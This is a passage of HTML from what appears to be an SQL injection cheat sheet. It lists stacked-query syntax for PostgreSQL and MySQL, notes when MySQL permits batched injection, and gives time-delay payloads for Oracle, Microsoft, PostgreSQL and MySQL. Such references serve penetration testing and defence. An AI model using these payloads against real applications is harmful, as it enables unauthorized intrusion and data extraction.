         <th>
            PostgreSQL
        </th>
        <td>
            <code>QUERY-1-HERE; QUERY-2-HERE</code>
        </td>
    </tr>
    <tr>
        <th>
            MySQL
        </th>
        <td>
            <code>QUERY-1-HERE; QUERY-2-HERE</code>
        </td>
    </tr>
</table>

<div>
    <h4>Note</h4>
    <p>
        With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.
    </p>
</div>

<h2>Time delays</h2>
<p>
    You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
</p>
<table>
    <tr>
        <th>
            Oracle
        </th>
        <td>
            <code>dbms_pipe.receive_message(('a'),10)</code>
        </td>
    </tr>
    <tr>
        <th>
            Microsoft
        </th>
        <td>
            <code>WAITFOR DELAY '0:0:10'</code>
        </td>
    </tr>
    <tr>
        <th>
            PostgreSQL
        </th>
        <td>
            <code>SELECT pg_sleep(10)</code>
        </td>
    </tr>
    <tr>
        <th>
            MySQL
        </th>
        <td>
            <code>SELECT SLEEP(10)</code>
        </td>
    </tr>